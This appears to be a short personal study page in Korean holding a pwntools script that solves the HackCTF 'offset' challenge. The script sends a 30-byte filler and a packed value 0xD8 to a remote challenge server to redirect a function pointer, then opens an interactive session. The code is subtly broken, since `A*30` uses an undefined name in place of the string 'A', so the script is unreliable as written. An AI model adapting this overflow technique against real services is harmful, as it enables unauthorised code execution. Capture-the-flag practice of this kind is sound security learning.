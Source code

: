 # 개인공부
## python

## hackctf. offset

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()
